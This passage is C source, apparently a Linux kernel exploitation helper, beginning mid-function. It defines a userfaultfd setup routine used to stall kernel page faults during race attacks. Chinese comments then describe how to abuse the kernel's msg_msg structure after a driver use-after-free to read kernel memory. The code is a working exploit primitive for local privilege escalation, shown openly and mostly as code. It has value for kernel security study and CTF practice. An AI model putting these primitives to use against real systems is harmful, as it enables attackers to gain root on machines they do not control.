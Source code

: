 ```c
                          ~(uffd_arg->pg_size - 1);
        uffdio_copy.len = uffd_arg->pg_size;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        assert(ioctl(uffd_arg->uffd, UFFDIO_COPY, &uffdio_copy) != -1);
    }

    return NULL;
}
pthread_t userfaultfd_exp(void *addr, uint64_t len, void *(*thread)(void *arg),
                     void *(*handler)(void *page))
{
    int uffd;
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;
    struct uffd_arg* uffd_arg;
    const int PG_SIZE = sysconf(_SC_PAGE_SIZE);
    pthread_t thr;


    printf("[userfaultfd_exp] create userfaultfd object\n");
    assert((uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK)) != -1);


    printf("[userfaultfd_exp] set the userfaultfd api\n");
    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;
    assert(ioctl(uffd, UFFDIO_API, &uffdio_api) != -1);

    printf("[userfaultfd_exp] register the memory range\n");
    uffdio_register.range.start = (unsigned long) addr;
    uffdio_register.range.len = (len + PG_SIZE - 1) / PG_SIZE * PG_SIZE;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    assert(ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) != -1);

    printf("[userfaultfd_exp] create the thread to handle userfaultfd events\n");
    assert((uffd_arg = malloc(sizeof(*uffd_arg))) != NULL);
    uffd_arg->uffd = uffd;
    uffd_arg->handler = handler;
    uffd_arg->pg_size = PG_SIZE;
    assert(pthread_create(&thr, NULL, userfaultfd_handler, uffd_arg) != -1);

    printf("[userfaultfd_exp] create the thread to trigger the page fault\n");
    assert(pthread_create(&thr, NULL, thread, NULL) != -1);

    return thr;
}

/* struct msg_msg读
 * 结构体:
 *          struct msg_msg {
 *              struct list_head m_list;
 *              long m_type;
 *              size_t m_ts;    // message text大小
 *              struct msg_msgseg *next;
 *              void *security; // 由于未开启SELinux，该字段恒为0
 *              // 用户定义数据从这里开始
 *          };
 *
 * 条件:
 *      1. 驱动中存在UAF，块大小为[0x30, 0x2000]，可以更改内存的[0x18, 0x28)处的值
 *      2. 如果更改了内存的[0x0, 0x10)的值，则需要调用recv_msg()，其需要内核
 * 开启CONFIG_CHECKPOINT_RESTORE设置；否则调用recv_msg_nocopy()即可
```